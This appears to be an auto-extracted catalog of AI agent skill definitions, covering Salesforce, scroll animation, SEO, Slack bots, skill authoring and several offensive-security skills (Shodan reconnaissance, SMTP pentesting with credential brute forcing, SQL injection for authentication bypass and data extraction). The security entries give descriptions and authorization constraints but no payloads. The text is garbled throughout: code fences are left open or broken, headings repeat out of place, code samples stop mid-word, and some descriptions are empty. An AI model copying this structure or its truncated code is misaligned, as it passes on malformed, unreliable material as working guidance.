"Expert patterns for Salesforce platform development including Lightning Web Components (LWC), Apex triggers and classes, REST/Bulk APIs, Connected Apps, and Salesforce DX with scratch orgs and 2nd generation packages (2GP). Use when: salesforce, sfdc, apex, lwc, lightning web components."

---

## Security Scanning Tools
- **ID**: `scanning-tools`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "perform vulnerability scanning", "scan networks for open ports", "assess web application security", "scan wireless networks", "detect malware", "check cloud security", or "evaluate system compliance". It provides comprehensive guidance on security scanning tools and methodologies.

### Purpose
Master essential security scanning tools for network discovery, vulnerability assessment, web application testing, wireless security, and compliance validation. This skill covers tool selection, configuration, and practical usage across different scanning categories.

### Behavior & Constraints
### Legal Considerations
- Always obtain written authorization
- Respect scope boundaries
- Follow responsible disclosure practices
- Comply with local laws and regulations

### Technical Limitations
- Some scans may trigger IDS/IPS alerts
- Heavy scanning can impact network performance
- False positives require manual verification
- Encrypted traffic may limit analysis

### Best Practices
- Start with non-intrusive scans
- Gradually increase scan intensity
- Document all scanning activities
- Validate findings before reporting

---

## schema-markup
- **ID**: `schema-markup`
- **Confidence**: `1.0`

### Description
>

### Behavior & Constraints
### Schema Strategy Summary

- Eligibility Index score + verdict
- Supported schema types
- Risks and constraints

### JSON-LD Implementation

```json
{
  "@context": "https://schema.org",
  "@type": "...",
  ...
}
```

### Placement Instructions

Where and how to add it

### Validation Checklist

- [ ] Valid JSON-LD
- [ ] Passes Rich Results Test
- [ ] Matches visible content
- [ ] Meets Google eligibility rules

---

---

## scroll-experience
- **ID**: `scroll-experience`
- **Confidence**: `1.0`

### Description
"Expert in building immersive scroll-driven experiences - parallax storytelling, scroll animations, interactive narratives, and cinematic web experiences. Like NY Times interactives, Apple product pages, and award-winning web experiences. Makes websites feel like experiences, not just pages. Use when: scroll animation, parallax, scroll storytelling, interactive story, cinematic website."

### When to Use
name: scroll-experience
description: "Expert in building immersive scroll-driven experiences - parallax storytelling, scroll animations, interactive narratives, and cinematic web experiences. Like NY Times interactives, Apple product pages, and award-winning web experiences. Makes websites feel like experiences, not just pages. Use when: scroll animation, parallax, scroll storytelling, interactive story, cinematic website."
source: vibeship-spawner-skills (Apache 2.0)
---

# Scroll Experience

**Role**: Scroll Experience Architect

You see scrolling as a narrative device, not just navigation. You create
moments of delight as users scroll. You know when to use subtle animations
and when to go cinematic. You balance performance with visual impact. You
make websites feel like movies you control with your thumb.

### When to Use
### Scroll Animation Stack

Tools and techniques for scroll animations

**When to use**: When planning scroll-driven experiences

```python

### When to Use
### Library Options
| Library | Best For | Learning Curve |
|---------|----------|----------------|
| GSAP ScrollTrigger | Complex animations | Medium |
| Framer Motion | React projects | Low |
| Locomotive Scroll | Smooth scroll + parallax | Medium |
| Lenis | Smooth scroll only | Low |
| CSS scroll-timeline | Simple, native | Low |

### GSAP ScrollTrigger Setup
```javascript
import { gsap } from 'gsap';
import { ScrollTrigger } from 'gsap/ScrollTrigger';

gsap.registerPlugin(ScrollTrigger);

// Basic scroll animation
gsap.to('.element', {
  scrollTrigger: {
    trigger: '.element',
    start: 'top center',
    end: 'bottom center',
    scrub: true, // Links animation to scroll position
  },
  y: -100,
  opacity: 1,
});
```

### Framer Motion Scroll
```jsx
import { motion, useScroll, useTransform } from 'framer-motion';

function ParallaxSection() {
  const { scrollYProgress } = useScroll();
  const y = useTransform(scrollYProgress, [0, 1], [0, -200]);

  return (
    <motion.div style={{ y }}>
      Content moves with scroll
    </motion.div>
  );
}
```

### CSS Native (2024+)
```css
@keyframes reveal {
  from { opacity: 0; transform: translateY(50px); }
  to { opacity: 1; transform: translateY(0); }
}

.animate-on-scroll {
  animation: reveal linear;
  animation-timeline: view();
  animation-range: entry 0% cover 40%;
}
```
```

### Parallax Storytelling

Tell stories through scroll depth

**When to use**: When creating narrative experiences

```javascript

### When to Use
### Layer Speeds
| Layer | Speed | Effect |
|-------|-------|--------|
| Background | 0.2x | Far away, slow |
| Midground | 0.5x | Middle depth |
| Foreground | 1.0x | Normal scroll |
| Content | 1.0x | Readable |
| Floating elements | 1.2x | Pop forward |

### Creating Depth
```javascript
// GSAP parallax layers
gsap.to('.background', {
  scrollTrigger: {
    scrub: true
  },
  y: '-20%', // Moves slower
});

gsap.to('.foreground', {
  scrollTrigger: {
    scrub: true
  },
  y: '-50%', // Moves faster
});
```

### Story Beats
```
Section 1: Hook (full viewport, striking visual)
    ↓ scroll
Section 2: Context (text + supporting visuals)
    ↓ scroll
Section 3: Journey (parallax storytelling)
    ↓ scroll
Section 4: Climax (dramatic reveal)
    ↓ scroll
Section 5: Resolution (CTA or conclusion)
```

### Text Reveals
- Fade in on scroll
- Typewriter effect on trigger
- Word-by-word highlight
- Sticky text with changing visuals
```

### Sticky Sections

Pin elements while scrolling through content

**When to use**: When content should stay visible during scroll

```javascript

---

## segment-cdp
- **ID**: `segment-cdp`
- **Confidence**: `0.5`

### Description
"Expert patterns for Segment Customer Data Platform including Analytics.js, server-side tracking, tracking plans with Protocols, identity resolution, destinations configuration, and data governance best practices. Use when: segment, analytics.js, customer data platform, cdp, tracking plan."

---

## senior-architect
- **ID**: `senior-architect`
- **Confidence**: `0.5`

### Description
Comprehensive software architecture skill for designing scalable, maintainable systems using ReactJS, NextJS, NodeJS, Express, React Native, Swift, Kotlin, Flutter, Postgres, GraphQL, Go, Python. Includes architecture diagram generation, system design patterns, tech stack decision frameworks, and dependency analysis. Use when designing system architecture, making technical decisions, creating architecture diagrams, evaluating trade-offs, or defining integration patterns.

---

## senior-fullstack
- **ID**: `senior-fullstack`
- **Confidence**: `0.5`

### Description
Comprehensive fullstack development skill for building complete web applications with React, Next.js, Node.js, GraphQL, and PostgreSQL. Includes project scaffolding, code quality analysis, architecture patterns, and complete tech stack guidance. Use when building new projects, analyzing code quality, implementing design patterns, or setting up development workflows.

---

## seo-audit
- **ID**: `seo-audit`
- **Confidence**: `1.0`

### Description
>

### Behavior & Constraints
Always classify the final score into a band:

| Score Range | Health Status | Interpretation                                  |
| ----------- | ------------- | ----------------------------------------------- |
| 90–100      | Excellent     | Strong SEO foundation, minor optimizations only |
| 75–89       | Good          | Solid performance with clear improvement areas  |
| 60–74       | Fair          | Meaningful issues limiting growth               |
| 40–59       | Poor          | Serious SEO constraints                         |
| <40         | Critical      | SEO is fundamentally broken                     |

---

---

## seo-fundamentals
- **ID**: `seo-fundamentals`
- **Confidence**: `0.5`

### Description
>

---

## server-management
- **ID**: `server-management`
- **Confidence**: `1.0`

### Description
Server management principles and decision-making. Process management, monitoring strategy, and scaling decisions. Teaches thinking, not commands.

### When to Use
### When to Scale

| Symptom | Solution |
|---------|----------|
| High CPU | Add instances (horizontal) |
| High memory | Increase RAM or fix leak |
| Slow response | Profile first, then scale |
| Traffic spikes | Auto-scaling |

### Scaling Strategy

| Type | When to Use |
|------|-------------|
| **Vertical** | Quick fix, single instance |
| **Horizontal** | Sustainable, distributed |
| **Auto** | Variable traffic |

---

---

## Shodan Reconnaissance and Pentesting
- **ID**: `shodan-reconnaissance`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "search for exposed devices on the internet," "perform Shodan reconnaissance," "find vulnerable services using Shodan," "scan IP ranges with Shodan," or "discover IoT devices and open ports." It provides comprehensive guidance for using Shodan's search engine, CLI, and API for penetration testing reconnaissance.

### Purpose
Provide systematic methodologies for leveraging Shodan as a reconnaissance tool during penetration testing engagements. This skill covers the Shodan web interface, command-line interface (CLI), REST API, search filters, on-demand scanning, and network monitoring capabilities for discovering exposed services, vulnerable systems, and IoT devices.

### Behavior & Constraints
### Operational Boundaries
- Rate limited to 1 request per second
- Scan results not immediate (asynchronous)
- Cannot re-scan same IP within 24 hours (non-Enterprise)
- Free accounts have limited credits
- Some data requires paid subscription

### Data Freshness
- Shodan crawls continuously but data may be days/weeks old
- On-demand scans provide current data but cost credits
- Historical data available with paid plans

### Legal Requirements
- Only perform reconnaissance on authorized targets
- Passive reconnaissance generally legal but verify jurisdiction
- Active scanning (scan submit) requires authorization
- Document all reconnaissance activities

---

## shopify-apps
- **ID**: `shopify-apps`
- **Confidence**: `0.5`

### Description
"Expert patterns for Shopify app development including Remix/React Router apps, embedded apps with App Bridge, webhook handling, GraphQL Admin API, Polaris components, billing, and app extensions. Use when: shopify app, shopify, embedded app, polaris, app bridge."

---

## shopify-development
- **ID**: `shopify-development`
- **Confidence**: `0.5`

### Description
|

---

## signup-flow-cro
- **ID**: `signup-flow-cro`
- **Confidence**: `1.0`

### Description
When the user wants to optimize signup, registration, account creation, or trial activation flows. Also use when the user mentions "signup conversions," "registration friction," "signup form optimization," "free trial signup," "reduce signup dropoff," or "account creation flow." For post-signup onboarding, see onboarding-cro. For lead capture forms (not account creation), see form-cro.

### Behavior & Constraints
Before providing recommendations, understand:

1. **Flow Type**
   - Free trial signup
   - Freemium account creation
   - Paid account creation
   - Waitlist/early access signup
   - B2B vs B2C

2. **Current State**
   - How many steps/screens?
   - What fields are required?
   - What's the current completion rate?
   - Where do users drop off?

3. **Business Constraints**
   - What data is genuinely needed at signup?
   - Are there compliance requirements?
   - What happens immediately after signup?

---

---

## skill-creator
- **ID**: `skill-creator`
- **Confidence**: `1.0`

### Description
Guide for creating effective skills. This skill should be used when users want to create a new skill (or update an existing skill) that extends Claude's capabilities with specialized knowledge, workflows, or tool integrations.

### When to Use
### Concise is Key

The context window is a public good. Skills share the context window with everything else Claude needs: system prompt, conversation history, other Skills' metadata, and the actual user request.

**Default assumption: Claude is already very smart.** Only add context Claude doesn't already have. Challenge each piece of information: "Does Claude really need this explanation?" and "Does this paragraph justify its token cost?"

Prefer concise examples over verbose explanations.

### Set Appropriate Degrees of Freedom

Match the level of specificity to the task's fragility and variability:

**High freedom (text-based instructions)**: Use when multiple approaches are valid, decisions depend on context, or heuristics guide the approach.

**Medium freedom (pseudocode or scripts with parameters)**: Use when a preferred pattern exists, some variation is acceptable, or configuration affects behavior.

**Low freedom (specific scripts, few parameters)**: Use when operations are fragile and error-prone, consistency is critical, or a specific sequence must be followed.

Think of Claude as exploring a path: a narrow bridge with cliffs needs specific guardrails (low freedom), while an open field allows many routes (high freedom).

### Anatomy of a Skill

Every skill consists of a required SKILL.md file and optional bundled resources:

```
skill-name/
├── SKILL.md (required)
│   ├── YAML frontmatter metadata (required)
│   │   ├── name: (required)
│   │   └── description: (required)
│   └── Markdown instructions (required)
└── Bundled Resources (optional)
    ├── scripts/          - Executable code (Python/Bash/etc.)
    ├── references/       - Documentation intended to be loaded into context as needed
    └── assets/           - Files used in output (templates, icons, fonts, etc.)
```

#### SKILL.md (required)

Every SKILL.md consists of:

- **Frontmatter** (YAML): Contains `name` and `description` fields. These are the only fields that Claude reads to determine when the skill gets used, thus it is very important to be clear and comprehensive in describing what the skill is, and when it should be used.
- **Body** (Markdown): Instructions and guidance for using the skill. Only loaded AFTER the skill triggers (if at all).

#### Bundled Resources (optional)

##### Scripts (`scripts/`)

Executable code (Python/Bash/etc.) for tasks that require deterministic reliability or are repeatedly rewritten.

- **When to include**: When the same code is being rewritten repeatedly or deterministic reliability is needed
- **Example**: `scripts/rotate_pdf.py` for PDF rotation tasks
- **Benefits**: Token efficient, deterministic, may be executed without loading into context
- **Note**: Scripts may still need to be read by Claude for patching or environment-specific adjustments

##### References (`references/`)

Documentation and reference material intended to be loaded as needed into context to inform Claude's process and thinking.

- **When to include**: For documentation that Claude should reference while working
- **Examples**: `references/finance.md` for financial schemas, `references/mnda.md` for company NDA template, `references/policies.md` for company policies, `references/api_docs.md` for API specifications
- **Use cases**: Database schemas, API documentation, domain knowledge, company policies, detailed workflow guides
- **Benefits**: Keeps SKILL.md lean, loaded only when Claude determines it's needed
- **Best practice**: If files are large (>10k words), include grep search patterns in SKILL.md
- **Avoid duplication**: Information should live in either SKILL.md or references files, not both. Prefer references files for detailed information unless it's truly core to the skill—this keeps SKILL.md lean while making information discoverable without hogging the context window. Keep only essential procedural instructions and workflow guidance in SKILL.md; move detailed reference material, schemas, and examples to references files.

##### Assets (`assets/`)

Files not intended to be loaded into context, but rather used within the output Claude produces.

- **When to include**: When the skill needs files that will be used in the final output
- **Examples**: `assets/logo.png` for brand assets, `assets/slides.pptx` for PowerPoint templates, `assets/frontend-template/` for HTML/React boilerplate, `assets/font.ttf` for typography
- **Use cases**: Templates, images, icons, boilerplate code, fonts, sample documents that get copied or modified
- **Benefits**: Separates output resources from documentation, enables Claude to use files without loading them into context

#### What to Not Include in a Skill

A skill should only contain essential files that directly support its functionality. Do NOT create extraneous documentation or auxiliary files, including:

- README.md
- INSTALLATION_GUIDE.md
- QUICK_REFERENCE.md
- CHANGELOG.md
- etc.

The skill should only contain the information needed for an AI agent to do the job at hand. It should not contain auxilary context about the process that went into creating it, setup and testing procedures, user-facing documentation, etc. Creating additional documentation files just adds clutter and confusion.

### Progressive Disclosure Design Principle

Skills use a three-level loading system to manage context efficiently:

1. **Metadata (name + description)** - Always in context (~100 words)
2. **SKILL.md body** - When skill triggers (<5k words)
3. **Bundled resources** - As needed by Claude (Unlimited because scripts can be executed without reading into context window)

#### Progressive Disclosure Patterns

Keep SKILL.md body to the essentials and under 500 lines to minimize context bloat. Split content into separate files when approaching this limit. When splitting out content into other files, it is very important to reference them from SKILL.md and describe clearly when to read them, to ensure the reader of the skill knows they exist and when to use them.

**Key principle:** When a skill supports multiple variations, frameworks, or options, keep only the core workflow and selection guidance in SKILL.md. Move variant-specific details (patterns, examples, configuration) into separate reference files.

**Pattern 1: High-level guide with references**

```markdown
# PDF Processing

### When to Use
Skill creation involves these steps:

1. Understand the skill with concrete examples
2. Plan reusable skill contents (scripts, references, assets)
3. Initialize the skill (run init_skill.py)
4. Edit the skill (implement resources and write SKILL.md)
5. Package the skill (run package_skill.py)
6. Iterate based on real usage

Follow these steps in order, skipping only if there is a clear reason why they are not applicable.

### Step 1: Understanding the Skill with Concrete Examples

Skip this step only when the skill's usage patterns are already clearly understood. It remains valuable even when working with an existing skill.

To create an effective skill, clearly understand concrete examples of how the skill will be used. This understanding can come from either direct user examples or generated examples that are validated with user feedback.

For example, when building an image-editor skill, relevant questions include:

- "What functionality should the image-editor skill support? Editing, rotating, anything else?"
- "Can you give some examples of how this skill would be used?"
- "I can imagine users asking for things like 'Remove the red-eye from this image' or 'Rotate this image'. Are there other ways you imagine this skill being used?"
- "What would a user say that should trigger this skill?"

To avoid overwhelming users, avoid asking too many questions in a single message. Start with the most important questions and follow up as needed for better effectiveness.

Conclude this step when there is a clear sense of the functionality the skill should support.

### Step 2: Planning the Reusable Skill Contents

To turn concrete examples into an effective skill, analyze each example by:

1. Considering how to execute on the example from scratch
2. Identifying what scripts, references, and assets would be helpful when executing these workflows repeatedly

Example: When building a `pdf-editor` skill to handle queries like "Help me rotate this PDF," the analysis shows:

1. Rotating a PDF requires re-writing the same code each time
2. A `scripts/rotate_pdf.py` script would be helpful to store in the skill

Example: When designing a `frontend-webapp-builder` skill for queries like "Build me a todo app" or "Build me a dashboard to track my steps," the analysis shows:

1. Writing a frontend webapp requires the same boilerplate HTML/React each time
2. An `assets/hello-world/` template containing the boilerplate HTML/React project files would be helpful to store in the skill

Example: When building a `big-query` skill to handle queries like "How many users have logged in today?" the analysis shows:

1. Querying BigQuery requires re-discovering the table schemas and relationships each time
2. A `references/schema.md` file documenting the table schemas would be helpful to store in the skill

To establish the skill's contents, analyze each concrete example to create a list of the reusable resources to include: scripts, references, and assets.

### Step 3: Initializing the Skill

At this point, it is time to actually create the skill.

Skip this step only if the skill being developed already exists, and iteration or packaging is needed. In this case, continue to the next step.

When creating a new skill from scratch, always run the `init_skill.py` script. The script conveniently generates a new template skill directory that automatically includes everything a skill requires, making the skill creation process much more efficient and reliable.

Usage:

```bash
scripts/init_skill.py <skill-name> --path <output-directory>
```

The script:

- Creates the skill directory at the specified path
- Generates a SKILL.md template with proper frontmatter and TODO placeholders
- Creates example resource directories: `scripts/`, `references/`, and `assets/`
- Adds example files in each directory that can be customized or deleted

After initialization, customize or remove the generated SKILL.md and example files as needed.

### Step 4: Edit the Skill

When editing the (newly-generated or existing) skill, remember that the skill is being created for another instance of Claude to use. Include information that would be beneficial and non-obvious to Claude. Consider what procedural knowledge, domain-specific details, or reusable assets would help another Claude instance execute these tasks more effectively.

#### Learn Proven Design Patterns

Consult these helpful guides based on your skill's needs:

- **Multi-step processes**: See references/workflows.md for sequential workflows and conditional logic
- **Specific output formats or quality standards**: See references/output-patterns.md for template and example patterns

These files contain established best practices for effective skill design.

#### Start with Reusable Skill Contents

To begin implementation, start with the reusable resources identified above: `scripts/`, `references/`, and `assets/` files. Note that this step may require user input. For example, when implementing a `brand-guidelines` skill, the user may need to provide brand assets or templates to store in `assets/`, or documentation to store in `references/`.

Added scripts must be tested by actually running them to ensure there are no bugs and that the output matches what is expected. If there are many similar scripts, only a representative sample needs to be tested to ensure confidence that they all work while balancing time to completion.

Any example files and directories not needed for the skill should be deleted. The initialization script creates example files in `scripts/`, `references/`, and `assets/` to demonstrate structure, but most skills won't need all of them.

#### Update SKILL.md

**Writing Guidelines:** Always use imperative/infinitive form.

##### Frontmatter

Write the YAML frontmatter with `name` and `description`:

- `name`: The skill name
- `description`: This is the primary triggering mechanism for your skill, and helps Claude understand when to use the skill.
  - Include both what the Skill does and specific triggers/contexts for when to use it.
  - Include all "when to use" information here - Not in the body. The body is only loaded after triggering, so "When to Use This Skill" sections in the body are not helpful to Claude.
  - Example description for a `docx` skill: "Comprehensive document creation, editing, and analysis with support for tracked changes, comments, formatting preservation, and text extraction. Use when Claude needs to work with professional documents (.docx files) for: (1) Creating new documents, (2) Modifying or editing content, (3) Working with tracked changes, (4) Adding comments, or any other document tasks"

Do not include any other fields in YAML frontmatter.

##### Body

Write instructions for using the skill and its bundled resources.

### Step 5: Packaging a Skill

Once development of the skill is complete, it must be packaged into a distributable .skill file that gets shared with the user. The packaging process automatically validates the skill first to ensure it meets all requirements:

```bash
scripts/package_skill.py <path/to/skill-folder>
```

Optional output directory specification:

```bash
scripts/package_skill.py <path/to/skill-folder> ./dist
```

The packaging script will:

1. **Validate** the skill automatically, checking:

   - YAML frontmatter format and required fields
   - Skill naming conventions and directory structure
   - Description completeness and quality
   - File organization and resource references

2. **Package** the skill if validation passes, creating a .skill file named after the skill (e.g., `my-skill.skill`) that includes all files and maintains the proper directory structure for distribution. The .skill file is a zip file with a .skill extension.

If validation fails, the script will report the errors and exit without creating a package. Fix any validation errors and run the packaging command again.

### Step 6: Iterate

After testing the skill, users may request improvements. Often this happens right after using the skill, with fresh context of how the skill performed.

**Iteration workflow:**

1. Use the skill on real tasks
2. Notice struggles or inefficiencies
3. Identify how SKILL.md or bundled resources should be updated
4. Implement changes and test again

---

## skill-developer
- **ID**: `skill-developer`
- **Confidence**: `1.0`

### Description
Create and manage Claude Code skills following Anthropic best practices. Use when creating new skills, modifying skill-rules.json, understanding trigger patterns, working with hooks, debugging skill activation, or implementing progressive disclosure. Covers skill structure, YAML frontmatter, trigger types (keywords, intent patterns, file paths, content patterns), enforcement levels (block, suggest, warn), hook mechanisms (UserPromptSubmit, PreToolUse), session tracking, and the 500-line rule.

### Purpose
Comprehensive guide for creating and managing skills in Claude Code with auto-activation system, following Anthropic's official best practices including the 500-line rule and progressive disclosure pattern.

### Activation
Automatically activates when you mention:
- Creating or adding skills
- Modifying skill triggers or rules
- Understanding how skill activation works
- Debugging skill activation issues
- Working with skill-rules.json
- Hook system mechanics
- Claude Code best practices
- Progressive disclosure
- YAML frontmatter
- 500-line rule

---

### When to Use
### 1. Guardrail Skills

**Purpose:** Enforce critical best practices that prevent errors

**Characteristics:**
- Type: `"guardrail"`
- Enforcement: `"block"`
- Priority: `"critical"` or `"high"`
- Block file edits until skill used
- Prevent common mistakes (column names, critical errors)
- Session-aware (don't repeat nag in same session)

**Examples:**
- `database-verification` - Verify table/column names before Prisma queries
- `frontend-dev-guidelines` - Enforce React/TypeScript patterns

**When to Use:**
- Mistakes that cause runtime errors
- Data integrity concerns
- Critical compatibility issues

### 2. Domain Skills

**Purpose:** Provide comprehensive guidance for specific areas

**Characteristics:**
- Type: `"domain"`
- Enforcement: `"suggest"`
- Priority: `"high"` or `"medium"`
- Advisory, not mandatory
- Topic or domain-specific
- Comprehensive documentation

**Examples:**
- `backend-dev-guidelines` - Node.js/Express/TypeScript patterns
- `frontend-dev-guidelines` - React/TypeScript best practices
- `error-tracking` - Sentry integration guidance

**When to Use:**
- Complex systems requiring deep knowledge
- Best practices documentation
- Architectural patterns
- How-to guides

---

### Purpose
What this skill helps with

### When to Use
Specific scenarios and conditions

---

## slack-bot-builder
- **ID**: `slack-bot-builder`
- **Confidence**: `1.0`

### Description
"Build Slack apps using the Bolt framework across Python, JavaScript, and Java. Covers Block Kit for rich UIs, interactive components, slash commands, event handling, OAuth installation flows, and Workflow Builder integration. Focus on best practices for production-ready Slack apps. Use when: slack bot, slack app, bolt framework, block kit, slash command."

### When to Use
### Bolt App Foundation Pattern

The Bolt framework is Slack's recommended approach for building apps.
It handles authentication, event routing, request verification, and
HTTP request processing so you can focus on app logic.

Key benefits:
- Event handling in a few lines of code
- Security checks and payload validation built-in
- Organized, consistent patterns
- Works for experiments and production

Available in: Python, JavaScript (Node.js), Java


**When to use**: ['Starting any new Slack app', 'Migrating from legacy Slack APIs', 'Building production Slack integrations']

```python
# Python Bolt App
from slack_bolt import App
from slack_bolt.adapter.socket_mode import SocketModeHandler
import os

# Initialize with tokens from environment
app = App(
    token=os.environ["SLACK_BOT_TOKEN"],
    signing_secret=os.environ["SLACK_SIGNING_SECRET"]
)

# Handle messages containing "hello"
@app.message("hello")
def handle_hello(message, say):
    """Respond to messages containing 'hello'."""
    user = message["user"]
    say(f"Hey there <@{user}>!")

# Handle slash command
@app.command("/ticket")
def handle_ticket_command(ack, body, client):
    """Handle /ticket slash command."""
    # Acknowledge immediately (within 3 seconds)
    ack()

    # Open a modal for ticket creation
    client.views_open(
        trigger_id=body["trigger_id"],
        view={
            "type": "modal",
            "callback_id": "ticket_modal",
            "title": {"type": "plain_text", "text": "Create Ticket"},
            "submit": {"type": "plain_text", "text": "Submit"},
            "blocks": [
                {
                    "type": "input",
                    "block_id": "title_block",
                    "element": {
                        "type": "plain_text_input",
                        "action_id": "title_input"
                    },
                    "label": {"type": "plain_text", "text": "Title"}
                },
                {
                    "type": "input",
                    "block_id": "desc_block",
                    "element": {
                        "type": "plain_text_input",
                        "multiline": True,
                        "action_id": "desc_input"
                    },
                    "label": {"type": "plain_text", "text": "Description"}
                },
                {
                    "type": "input",
                    "block_id": "priority_block",
                    "element": {
                        "type": "static_select",
                        "action_id": "priority_select",
   
```

### Block Kit UI Pattern

Block Kit is Slack's UI framework for building rich, interactive messages.
Compose messages using blocks (sections, actions, inputs) and elements
(buttons, menus, text inputs).

Limits:
- Up to 50 blocks per message
- Up to 100 blocks in modals/Home tabs
- Block text limited to 3000 characters

Use Block Kit Builder to prototype: https://app.slack.com/block-kit-builder


**When to use**: ['Building rich message layouts', 'Adding interactive components to messages', 'Creating forms in modals', 'Building Home tab experiences']

```python
from slack_bolt import App
import os

app = App(token=os.environ["SLACK_BOT_TOKEN"])

def build_notification_blocks(incident: dict) -> list:
    """Build Block Kit blocks for incident notification."""
    severity_emoji = {
        "critical": ":red_circle:",
        "high": ":large_orange_circle:",
        "medium": ":large_yellow_circle:",
        "low": ":white_circle:"
    }

    return [
        # Header
        {
            "type": "header",
            "text": {
                "type": "plain_text",
                "text": f"{severity_emoji.get(incident['severity'], '')} Incident Alert"
            }
        },
        # Details section
        {
            "type": "section",
            "fields": [
                {
                    "type": "mrkdwn",
                    "text": f"*Incident:*\n{incident['title']}"
                },
                {
                    "type": "mrkdwn",
                    "text": f"*Severity:*\n{incident['severity'].upper()}"
                },
                {
                    "type": "mrkdwn",
                    "text": f"*Service:*\n{incident['service']}"
                },
                {
                    "type": "mrkdwn",
                    "text": f"*Reported:*\n<!date^{incident['timestamp']}^{date_short} {time}|{incident['timestamp']}>"
                }
            ]
        },
        # Description
        {
            "type": "section",
            "text": {
                "type": "mrkdwn",
                "text": f"*Description:*\n{incident['description'][:2000]}"
            }
        },
        # Divider
        {"type": "divider"},
        # Action buttons
        {
            "type": "actions",
            "block_id": f"incident_actions_{incident['id']}",
            "elements": [
                {
                    "type": "button",
                    "text": {"type": "plain_text", "text": "Acknowledge"},
                    "style": "primary",
                    "action_id": "acknowle
```

### OAuth Installation Pattern

Enable users to install your app in their workspaces via OAuth 2.0.
Bolt handles most of the OAuth flow, but you need to configure it
and store tokens securely.

Key OAuth concepts:
- Scopes define permissions (request minimum needed)
- Tokens are workspace-specific
- Installation data must be stored persistently
- Users can add scopes later (additive)

70% of users abandon installation when confronted with excessive
permission requests - request only what you need!


**When to use**: ['Distributing app to multiple workspaces', 'Building public Slack apps', 'Enterprise-grade integrations']

```python
from slack_bolt import App
from slack_bolt.oauth.oauth_settings import OAuthSettings
from slack_sdk.oauth.installation_store import FileInstallationStore
from slack_sdk.oauth.state_store import FileOAuthStateStore
import os

# For production, use database-backed stores
# For example: PostgreSQL, MongoDB, Redis

class DatabaseInstallationStore:
    """Store installation data in your database."""

    async def save(self, installation):
        """Save installation when user completes OAuth."""
        await db.installations.upsert({
            "team_id": installation.team_id,
            "enterprise_id": installation.enterprise_id,
            "bot_token": encrypt(installation.bot_token),
            "bot_user_id": installation.bot_user_id,
            "bot_scopes": installation.bot_scopes,
            "user_id": installation.user_id,
            "installed_at": installation.installed_at
        })

    async def find_installation(self, *, enterprise_id, team_id, user_id=None, is_enterprise_install=False):
        """Find installation for a workspace."""
        record = await db.installations.find_one({
            "team_id": team_id,
            "enterprise_id": enterprise_id
        })

        if record:
            return Installation(
                bot_token=decrypt(record["bot_token"]),
                # ... other fields
            )
        return None

# Initialize OAuth-enabled app
app = App(
    signing_secret=os.environ["SLACK_SIGNING_SECRET"],
    oauth_settings=OAuthSettings(
        client_id=os.environ["SLACK_CLIENT_ID"],
        client_secret=os.environ["SLACK_CLIENT_SECRET"],
        scopes=[
            "channels:history",
            "channels:read",
            "chat:write",
            "commands",
            "users:read"
        ],
        user_scopes=[],  # User token scopes if needed
        installation_store=DatabaseInstallationStore(),
        state_store=FileOAuthStateStore(expiration_seconds=600)
    )
)

# OAuth routes are handled a
```

---

## slack-gif-creator
- **ID**: `slack-gif-creator`
- **Confidence**: `1.0`

### Description
Knowledge and utilities for creating animated GIFs optimized for Slack. Provides constraints, validation tools, and animation concepts. Use when users request animated GIFs for Slack like "make me a GIF of X doing Y for Slack."

### Behavior & Constraints
name: slack-gif-creator
description: Knowledge and utilities for creating animated GIFs optimized for Slack. Provides constraints, validation tools, and animation concepts. Use when users request animated GIFs for Slack like "make me a GIF of X doing Y for Slack."
license: Complete terms in LICENSE.txt
---

# Slack GIF Creator

A toolkit providing utilities and knowledge for creating animated GIFs optimized for Slack.

---

## SMTP Penetration Testing
- **ID**: `smtp-penetration-testing`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "perform SMTP penetration testing", "enumerate email users", "test for open mail relays", "grab SMTP banners", "brute force email credentials", or "assess mail server security". It provides comprehensive techniques for testing SMTP server security.

### Purpose
Conduct comprehensive security assessments of SMTP (Simple Mail Transfer Protocol) servers to identify vulnerabilities including open relays, user enumeration, weak authentication, and misconfiguration. This skill covers banner grabbing, user enumeration techniques, relay testing, brute force attacks, and security hardening recommendations.

### Behavior & Constraints
### Legal Requirements
- Only test SMTP servers you own or have authorization to test
- Sending spam or malicious emails is illegal
- Document all testing activities
- Do not abuse discovered open relays

### Technical Limitations
- VRFY/EXPN often disabled on modern servers
- Rate limiting may slow enumeration
- Some servers respond identically for valid/invalid users
- Greylisting may delay enumeration responses

### Ethical Boundaries
- Never send actual spam through discovered relays
- Do not harvest email addresses for malicious use
- Report open relays to server administrators
- Use findings only for authorized security improvement

---

## social-content
- **ID**: `social-content`
- **Confidence**: `0.5`

### Description
"When the user wants help creating, scheduling, or optimizing social media content for LinkedIn, Twitter/X, Instagram, TikTok, Facebook, or other platforms. Also use when the user mentions 'LinkedIn post,' 'Twitter thread,' 'social media,' 'content calendar,' 'social scheduling,' 'engagement,' or 'viral content.' This skill covers content creation, repurposing, and platform-specific strategies."

---

## software-architecture
- **ID**: `software-architecture`
- **Confidence**: `0.5`

### Description
Guide for quality focused software architecture. This skill should be used when users want to write code, design architecture, analyze code, in any case that relates to software development.

---

## SQL Injection Testing
- **ID**: `sql-injection-testing`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "test for SQL injection vulnerabilities", "perform SQLi attacks", "bypass authentication using SQL injection", "extract database information through injection", "detect SQL injection flaws", or "exploit database query vulnerabilities". It provides comprehensive techniques for identifying, exploiting, and understanding SQL injection attack vectors across different database systems.

### Purpose
Execute comprehensive SQL injection vulnerability assessments on web applications to identify database security flaws, demonstrate exploitation techniques, and validate input sanitization mechanisms. This skill enables systematic detection and exploitation of SQL injection vulnerabilities across in-band, blind, and out-of-band attack vectors to assess application security posture.

### Behavior & Constraints
### Operational Boundaries
- Never execute destructive queries (DROP, DELETE, TRUNCATE) without explicit authorization
- Limit data extraction to proof-of-concept quantities
- Avoid denial-of-service through resource-intensive queries
- Stop immediately upon detecting production database with real user data

### Technical Limitations
- WAF/IPS may block common payloads requiring evasion techniques
- Parameterized queries prevent standard injection
- Some blind injection requires extensive requests (rate limiting concerns)
- Second-order injection requires understanding of data flow

### Legal and Ethical Requirements
- Written scope agreement must exist before testing
- Document all extracted data and handle per data protection requirements
- Report critical vulnerabilities immediately through agreed channels
- Never access data beyond scope requirements

---

## SQLMap Database Penetration Testing
- **ID**: `sqlmap-database-pentesting`
- **Confidence**: `1.0`

### Description
